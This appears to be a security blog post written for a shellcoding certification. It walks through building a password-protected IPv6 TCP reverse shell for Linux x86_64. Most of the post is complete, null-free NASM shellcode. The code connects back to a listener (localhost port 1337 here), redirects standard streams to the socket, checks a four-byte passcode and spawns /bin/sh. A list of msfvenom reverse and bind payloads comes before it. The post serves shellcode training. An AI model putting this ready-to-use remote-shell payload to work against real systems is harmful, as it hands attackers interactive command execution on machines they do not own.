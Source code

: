 Introduction
------------
In this post we will create a custom TCP reverse shell for Linux x86_64 architecture that requires password to spawn a shell. This post is a continuation of [Password Protected Tcp Bind Shell ~ Linux X86_64](https://ihack4falafel.github.io/Password-Protected-TCP-Bind-Shell-~-Linux-x86_64/) and since my previous posts include an in-depth analysis of the functions used in reverse shells we won’t spend too much time there.

Shellcode
---------
I've decided to create an IPv6 reverse shell this time around for two reasons, the first being I haven’t done any before and the second is for some reason `msfvenom` don’t have one for x86_64 so the final shellcode might be of use to somebody, maybe.

```sh
➜  ~ msfvenom -l payloads | grep linux/x64
    linux/x64/exec                                      Execute an arbitrary command
    linux/x64/meterpreter/bind_tcp                      Inject the mettle server payload (staged). Listen for a connection
    linux/x64/meterpreter/reverse_tcp                   Inject the mettle server payload (staged). Connect back to the attacker
    linux/x64/meterpreter_reverse_http                  Run the Meterpreter / Mettle server payload (stageless)
    linux/x64/meterpreter_reverse_https                 Run the Meterpreter / Mettle server payload (stageless)
    linux/x64/meterpreter_reverse_tcp                   Run the Meterpreter / Mettle server payload (stageless)
    linux/x64/shell/bind_tcp                            Spawn a command shell (staged). Listen for a connection
    linux/x64/shell/reverse_tcp                         Spawn a command shell (staged). Connect back to the attacker
    linux/x64/shell_bind_tcp                            Listen for a connection and spawn a command shell
    linux/x64/shell_bind_tcp_random_port                Listen for a connection in a random port and spawn a command shell. Use nmap to discover the open port: 'nmap -sS target -p-'.
    linux/x64/shell_find_port                           Spawn a shell on an established connection
    linux/x64/shell_reverse_tcp                         Connect back to attacker and spawn a command shell
➜  ~ 
```

Creating an IPv6 reverse shell is not rocket science, all we need is use `AF_INET6` as domain when calling `socket()` function and use IPv6 structure to specify what IP and port we want amongst other things (I used localhost `::1` in this case). Lastly, we need to accommodate for the structure length when calling `connect()` function using `RDX` register.

```c
Address format
           struct sockaddr_in6 {
               sa_family_t     sin6_family;   /* AF_INET6 */
               in_port_t       sin6_port;     /* port number */
               uint32_t        sin6_flowinfo; /* IPv6 flow information */
               struct in6_addr sin6_addr;     /* IPv6 address */
               uint32_t        sin6_scope_id; /* Scope ID (new in 2.4) */
           };

           struct in6_addr {
               unsigned char   s6_addr[16];   /* IPv6 address */
           };
```

The following is the final null-free shellcode. Please refer to the link of my previous post in the introduction section to learn more about `read()` function used in the password check routine.

```nasm
section .text

global _start

_start:

	; int socket(int domain, int type, int protocol)
	; rax=41, rdi=10, rsi=1, rdx=0
	xor esi,esi
	mul esi                
	inc esi
	push 10 
	pop rdi
	add al, 41
	syscall

	; save socket fd in rdi
	xchg rbx,rax

	; struct sockaddr_in6 struct
	push rdx			            ; scope id = 0
	mov rcx,0xFEFFFFFFFFFFFFFF      ; link local address ::1
	not rcx
	push rcx
	push rdx
	push rdx                        ; sin6_flowinfo=0
	push word 0x3905		        ; port 1337
	push word 10     		        ; sin6_family

	; int connect(int sockfd, const struct sockaddr *addr,socklen_t addrlen)
	; rax=42, rdi=rbx(fd), rsi=sockaddr_inet6, rdx=28 (length)
	push 	rbx
	pop 	rdi
	push 	rsp
	pop 	rsi
	push 	28
	pop 	rdx
	push 	42
	pop 	rax
	syscall

	; dup2 (new, old)
	; rax=33, rdi=new fd, rsi=0,1,2 (stdin, stdout, stderr)
	xchg   rsi, rax
	push 0x3
	pop rsi
_loop:
	push 0x21
	pop rax
	dec esi
	syscall
	loopnz _loop

	; read (int fd, void *bf, size_t count)
	; rax=0, rdi=0 (stdin), rsi=rsp, rdx=4 (pwnd)
	xor rax, rax
	push rax
	pop rdi
	push rax
	push rsp
	pop rsi
	push 0x4
	pop rdx
	syscall

	; check passcode (pwnd)
	push 0x646e7770
	pop rbx
	cmp dword [rsi], ebx
	jne _nop

	; int execve(cont char *filename, char *const argv[], char *const envp[])
	; rax=59, rdi=/bin//sh, rsi=0, rdx=0
	xor rax, rax
	push rax
	mov rbx, 0x68732f2f6e69622f
	push rbx
	push rsp
	pop rdi
	push rax
	push rsp
	pop rsi
	cdq
	push 0x3b
	pop rax
	syscall

_nop:
	nop
```

Now its demo time.

![](/assets/images/Password_Protected_TCP_Reverse_Shell_(IPv6)_Linux_x86_64/ReverseShellDemo.gif)

Closing Thoughts
----------------
I did learn a thing or two about IPv6 addressing while crafting this shellcode and I hope you did too. All of the above code are available on my [github](https://github.com/ihack4falafel/SLAE64/tree/master/Assignment%202) or [exploit-db](https://www.exploit-db.com/exploits/45039). Feel free to contact me for questions via Twitter [@ihack4falafel](https://twitter.com/ihack4falafel).

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certiﬁcation:

[http://www.securitytube-training.com/online-courses/x8664-assembly-and-shellcoding-on-linux/index.html](http://www.securitytube-training.com/online-courses/x8664-assembly-and-shellcoding-on-linux/index.html)

Student ID: SLAE64–1579
